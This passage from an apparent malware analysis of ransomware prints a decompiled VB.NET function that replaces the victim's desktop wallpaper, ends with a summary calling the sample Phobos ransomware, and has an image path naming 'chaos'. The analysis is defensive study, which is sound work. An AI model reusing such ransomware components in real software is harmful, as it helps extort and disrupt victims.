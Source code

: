 List of file extensions that will be affected by the ransomware

### SetWallpaper

```vbnet
Public Shared Sub SetWallpaper(base64 As String)
	If base64 <> "" Then
		Try
			Dim text As String = Path.GetTempPath() + Program.RandomString(9) + ".jpg"
			File.WriteAllBytes(text, Convert.FromBase64String(base64))
			Program.SystemParametersInfo(20UI, 0UI, text, 3UI)
		Catch
		End Try
	End If
End Sub
```
This function changes the computer's wallpaper. It takes a base64-encoded image, converts it into a JPEG file, and sets it as the new wallpaper.

![wallpaper](/images/chaos/chaos-08.png)

### Conclusion

Phobos Ransomware is an advanced malware that encrypts user files, demanding a Bitcoin ransom for recovery. It employs a range of techniques for spreading, encryption, and system manipulation, targeting a wide variety of file types and taking measures to ensure its persistence and evasion.
